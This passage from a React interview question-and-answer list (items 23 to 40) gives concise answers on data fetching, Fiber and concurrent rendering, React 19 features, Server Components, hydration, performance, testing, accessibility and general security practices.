23. **How do you fetch data in React in 2026?** → In frameworks: Server Components or route loaders. In SPAs: TanStack Query/SWR. Manual `useEffect` fetching needs loading/error states and cleanup to avoid race conditions.
24. **How do you prevent race conditions when fetching?** → Abort previous requests with `AbortController` in the effect cleanup (or ignore stale results with a flag); libraries do this per query key.

**Advanced**

25. **Explain reconciliation and Fiber.** → React diffs trees by element type and position (and keys), reusing instances with the same type/position. Fiber represents work as units that can be paused, prioritised and resumed, enabling concurrent rendering.
26. **What is concurrent rendering?** → React can prepare renders in the background and interrupt them for urgent updates. `useTransition` and `useDeferredValue` mark non-urgent work; Suspense and streaming SSR build on it.
27. **What's new in React 19?** → Actions (`<form action>`, `useActionState`, `useFormStatus`, `useOptimistic`), `use()`, `ref` as a prop, `<Context>` as a provider, ref cleanup functions, document metadata (`<title>` in components), stylesheet/script support, Server Components and Server Functions stable, better hydration errors; React Compiler released alongside.
28. **Server Components vs Client Components?** → Server Components run only on the server (async, direct data access, no JS shipped); Client Components (`"use client"`) run in the browser for interactivity. Server can render client components; client components can receive server components as `children`.
29. **What are Server Functions (Server Actions) and their risks?** → `"use server"` async functions callable from the client (e.g. form actions). They're public HTTP endpoints: always authenticate, authorise and validate input.
30. **CSR vs SSR vs SSG vs ISR vs streaming?** → Browser renders vs server renders per request vs build-time HTML vs static regenerated periodically/on demand vs sending the shell first and streaming slow parts via Suspense.
31. **What is hydration and what causes mismatches?** → Attaching React to server-rendered HTML. Mismatches come from rendering different output on server and client (dates, random values, `window`, `localStorage`); render client-only values in effects.
32. **How do you optimise a slow React app?** → Measure (Profiler, Web Vitals), colocate state, avoid unnecessary re-renders (compiler/memo), virtualise long lists, code-split, use transitions, reduce bundle size, server-render, move heavy work to workers.
33. **How do you manage global state?** → Minimise it: server state in a query cache, URL state in the URL, form state in forms; then context for rare changes, Zustand/Redux Toolkit/Jotai with selectors for the rest.
34. **How do you test React components?** → Testing Library + user-event: query by role/label, interact like a user, assert on visible output; mock APIs with MSW; Playwright for critical end-to-end flows. Avoid testing implementation details.
35. **How do you make React apps accessible?** → Semantic HTML, labels, keyboard support, focus management for dialogs and route changes, ARIA only when needed, live regions for updates, contrast, testing with axe and screen readers.
36. **How do you secure a React app?** → Rely on escaping, avoid/sanitise `dangerouslySetInnerHTML`, validate URLs, no secrets in the bundle, HttpOnly cookies, CSRF protection, server-side authorisation, CSP, dependency auditing.
37. **Explain `useLayoutEffect` vs `useEffect`.** → `useLayoutEffect` runs synchronously after DOM mutations but before paint (for measuring layout to avoid flicker); `useEffect` runs after paint. Prefer `useEffect`.
38. **How does `useSyncExternalStore` help?** → It subscribes to external stores (browser APIs, Zustand/Redux internals) in a way that's consistent under concurrent rendering and supports SSR snapshots.
39. **How would you design an autocomplete component?** → Debounced input, cancelled/stale-safe requests, caching, keyboard navigation (arrows/Enter/Escape), combobox ARIA roles, loading/empty/error states, highlighting matches, and virtualisation for long result lists.
40. **Class component lifecycle vs hooks?** → `componentDidMount`/`DidUpdate`/`WillUnmount` map to `useEffect` with dependencies and cleanup; `shouldComponentUpdate`/`PureComponent` to `memo`; error boundaries still need classes (or a library).

---
